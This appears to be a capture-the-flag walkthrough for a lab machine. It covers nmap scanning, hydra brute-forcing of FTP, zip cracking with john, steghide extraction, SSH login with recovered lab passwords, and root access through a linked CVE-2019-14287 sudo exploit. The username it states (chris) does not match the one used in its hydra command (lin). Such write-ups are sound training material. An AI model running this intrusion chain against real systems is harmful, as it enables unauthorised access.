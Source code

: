 did nmap scan
```bash
nmap -sS 10.10.211.21
```

got three ports running 
- SSH
- FTP
- HTTP

lets observe the web page now we have a hint that changing user-agent header value may give us something 
we got the username of Agent C is chris
Now as we have username we can try brute forcing FTP or SSH, lets try FTP, for that we can use hydra
```bash
hydra -l lin -P /usr/share/wordlists/rockyou.txt 10.10.211.21 ftp
```

some times it we continue its previous session, for that we can use the following
```bash
hydra -I -l lin -P /usr/share/wordlists/rockyou.txt ftp://10.10.211.21
```

we got the password to it that is crystal

we got two images and a text file, the text file hints that there is something hidden in the images

we can use exif to get if there is something 
```bash
exiftool cutie.png
```
there is something in this image

we can use binwalk to analysis the data present in it
```bash
binwalk cutie.png
```
we get some data here and a zip but it is password protected
we can use zip to john to first convert the data
```bash
zip2john 8702.zip > extract.txt
```
now we get a data that is suitable for john now we can use john to get password of the zip
```bash
john extract.txt
```
boom we got the password for the zip it is "alien"
extracting the zip gives us a message from agent r
it has a text with a coded message of some encoding tried bas64 and we got our steg password "Area51"
we used steghide to extract the data
```bash
steghide extract -sf cute-alien.jpg
```
doing so we need to enter the paraphrase that we found and we get message.txt and there we can see the second agent is "james" and "hackerrules!" which may be for ssh
now trying ssh
```bash
ssh james@10.10.211.21
```
boom we got the user flag and we have a image here
lets just download it to see it
```bash
scp james@10.10.211.21:Alien_autospy.jpg .
```
a image of alien, lets run it through google image search and we get a result, had to take a hint for it
it was related to an incident
Roswell alien autopsy

now lets think of escalating previlages 
```bash
sudo -l
```
nothing useful found 
nothing came back from GTFO bins also
checked the version of sudo
```bash
sudo -V
```
got an exploit for it can be used to escalate priv
[PrivEsc Exploit](https://github.com/n0w4n/CVE-2019-14287/blob/master/sudo.sh)
give executable permissions to it
```bash
chmod +x exploit.sh
```
run it and boom you have root access
you can get the root flag and also got the name of agent R
Done with it CTF solved